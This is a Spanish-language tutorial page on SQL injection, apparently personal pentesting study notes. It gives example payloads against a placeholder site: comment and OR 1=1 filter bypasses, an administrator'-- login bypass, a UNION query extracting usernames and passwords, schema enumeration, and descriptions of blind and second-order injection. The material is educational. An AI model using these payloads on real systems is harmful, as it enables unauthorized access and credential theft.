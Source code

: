 # 1 - Teorico

## Intro

Permite introducir codigo sql donde normalmente no estaria permitido y obtener informacion directamente de la base de datos. O modificarla. Es incluso posible escalar esta amenaza a conseguir informacion del servidor.

![](../../.gitbook/assets/imagen%20%28605%29.png)

## Impacto de una inyeccion de SQL

Un ataque exitoso puede resultar en el acceso sin autorizacion o la obtencion de informacion. El atacante puede incluso dejar un backdoor a la organizacion llevando a un impacto a largo tiempo.

## Atacando la URI

Supongamos que tenemos la siguiente URL que genera la siguiente consulta:

```text
https://insecure-website.com/products?category=Gifts
```

```sql
SELECT * FROM products
WHERE category = 'Gifts'
AND released = 1
```

Releleased es un atributo interno dentro de la aplicacion. Ahora si un atacante modificase el codigo de la uri para agregar un comentario y este input no es sanitizado ocurre lo siguiente

```text
https://insecure-website.com/products?category=Gifts'--
```

```sql
SELECT * FROM products
WHERE category = 'Gifts'--'AND released = 1
```

Comenta el codigo y revela informacion de objetos sin release. Mejorando su ataque el atacante podria obtener todos los productos incluido aquellos que no conoce.

```text
https://insecure-website.com/products?category=Gifts'+OR+1=1--
```

```sql
SELECT * FROM products
WHERE category = 'Gifts'
OR 1=1--'AND released = 1
```

## Atacando Log-In

Que sucede cuando hacemos log in con nuestro **user**= wiener y nuestro **pass**= bluecheese

```sql
SELECT * FROM users 
WHERE username = 'wiener'
AND password = 'bluecheese'
```

Curioso que pasaria si ponemos de usuario \(sin siquiera pas\) administrator'--

```sql
SELECT * FROM users 
WHERE username = 'administrator' -- 'AND password = ''
```

 `SELECT * FROM users WHERE username = 'administrator'--' AND password = ''`

## Obteniendo datos de otras tablas \(UNION ATTACK\)

Usando union lo sumamos a nuestra query:

```sql
SELECT name, descriptiion FROM products
WHERE category = 'Gifts'
UNION SELECT username, password FROM users--
```

## Obteniendo informacion de la base

Algo relevante puede ser obtener informacion de la base a modo de seguir atacandola y obtener activos mas criticos. Se puede obtener informacion de las version:

**En oracle:**

```sql
SELECT * FROM v$version
```

Otra forma de obtener info es obtener a travez de esto:

```sql
SELECT * FROM information_schema.tables
```

## Inyeccion a ciegas

Cuando el atacante no sabe contra que motor de base de datos se esta enfrentando. Podemos cambiar la query acorde a elementos logicos que revelan esto. Por ejemplo delays en las query que difieren entre motores.

* Cambios de logica que den errores como dividir por 0.
* Obligar a delays
* Trigger out of band network interactions \(burp collaborator\): Exifltrar info poniendo informacion en un dominio controlado por nosotros.

## **SQL injection in different parts of the query**

La mayoria de las vulnerabilidades ocurren por las clausulas WHERE y SELECT. Estas inyecciones son reconocibles por los testers, pero, muchas tambien pueden ocurrir en otros segmenetos de la query:

*  En `UPDATE` dentro de los`WHERE`
*  En `INSERT` dentro de los valores a insertar
*  En `SELECT` dentro de las tablas o columnas.
*  En `SELECT` dentro de los `ORDER BY`.

## Inyeccion de segundo orden

![](../../.gitbook/assets/imagen%20%28608%29.png)

La diferencia radica en que en este ataque se mantiene el ataque persistido en la base y no actua directamente. En la imagen muestra como al registrarse coloca la inyeccion y luego al hacer la busqueda se ejecuta y cambia al administrador. No en el login sino al registrar usuario.

